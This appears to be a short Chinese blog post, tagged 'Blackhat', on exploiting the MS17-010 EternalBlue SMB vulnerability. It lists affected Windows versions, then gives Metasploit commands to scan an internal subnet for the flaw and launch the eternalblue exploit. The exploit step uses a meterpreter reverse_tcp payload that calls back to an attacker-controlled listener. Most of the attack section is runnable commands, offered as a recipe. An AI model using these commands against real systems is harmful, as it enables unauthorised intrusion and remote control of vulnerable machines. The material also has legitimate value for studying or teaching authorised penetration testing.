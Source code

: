 ```yaml
---
title: 永恒之蓝(ms17-010-eternalblue)漏洞利用
name: ms17-010-eternalblue
date: 2017-10-28
tags: [ms17,eternalblue，永恒之蓝,nsa]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# 永恒之蓝(ms17-010-eternalblue)漏洞利用

## 适用版本

*   Windows XP (all services pack) (x86) (x64)
*   Windows Server 2003 SP0 (x86)
*   Windows Server 2003 SP1/SP2 (x86)
*   Windows Server 2003 (x64)
*   Windows Vista (x86)
*   Windows Vista (x64)
*   Windows Server 2008 (x86)
*   Windows Server 2008 R2 (x86) (x64)
*   Windows 7 (all services pack) (x86) (x64)

## 目标扫描

这里以内网扫描进行测试，所有扫描内网中所有主机，并检查其是否存在此漏洞。

```shell
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > set RHOSTS 192.168.1.0/24
msf > set THREADS 100
msf > exploit
```

## 漏洞攻击

确定好目标主机后，就可以使用启动监听并进行攻击

```shell
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 192.168.1.15
msf > set LPORT 4444
msf > set RHOST 192.168.1.110
msf > exploit
```